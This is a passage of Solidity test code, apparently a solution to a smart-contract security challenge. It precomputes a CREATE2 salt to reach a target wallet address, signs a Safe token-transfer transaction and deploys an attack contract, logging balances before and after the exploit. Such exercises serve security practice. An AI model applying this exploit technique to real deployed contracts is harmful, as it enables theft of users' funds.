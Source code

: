 ```solidity
            keccak256(abi.encodePacked(type(SafeProxy).creationCode, uint256(uint160(address(singletonCopy)))));
        while (target != USER_DEPOSIT_ADDRESS) {
            saltNonce++;
            bytes32 salt = keccak256(abi.encodePacked(keccak256(initializer), saltNonce));
            target = vm.computeCreate2Address(salt, initCodeHash, address(proxyFactory));
        }

        // calculate transaction hash
        bytes memory data = abi.encodeWithSignature("transfer(address,uint256)", user, DEPOSIT_TOKEN_AMOUNT);
        bytes32 domainSeparator = keccak256(
            abi.encode(
                0x47e79534a245952e8b16893a336b85a3d9ea9fa8c573f3d803afb92a79469218, //DOMAIN_SEPARATOR_TYPEHASH
                singletonCopy.getChainId(),
                USER_DEPOSIT_ADDRESS
            )
        );
        bytes32 safeTxHash = keccak256(
            abi.encode(
                0xbb8310d486368db6bd6f849402fdd73ad53d316b5a4b2644ad6efe0f941286d8, // SAFE_TX_TYPEHASH
                token, // to
                0, // value
                keccak256(data), // data
                Enum.Operation.Call, // operation
                0, // safeTxGas
                0, // baseGas
                0, // gasPrice
                0, // gasToken
                payable(0), // refundReceiver
                0 // _nonce
            )
        );
        bytes32 txHash = keccak256(abi.encodePacked(bytes1(0x19), bytes1(0x01), domainSeparator, safeTxHash));

        // sign the transaction hash with the user's private key
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, txHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        emit log("-------------------------- Before exploit --------------------------");
        emit log_named_decimal_uint(
            "token balance in the wallet deployer contract", token.balanceOf(address(walletDeployer)), token.decimals()
        );
        emit log_named_decimal_uint(
            "token balance in the user's safe wallet", token.balanceOf(address(USER_DEPOSIT_ADDRESS)), token.decimals()
        );
        emit log_named_decimal_uint("token balance in the ward", token.balanceOf(address(ward)), token.decimals());
        emit log_named_decimal_uint("token balance in the user", token.balanceOf(address(user)), token.decimals());

        // deploy malicious contract to exploit the vulnerability
        new AttackWalletDeployer(
            address(token), address(authorizer), address(walletDeployer), initializer, saltNonce, signature
        );

        emit log("-------------------------- After exploit --------------------------");
```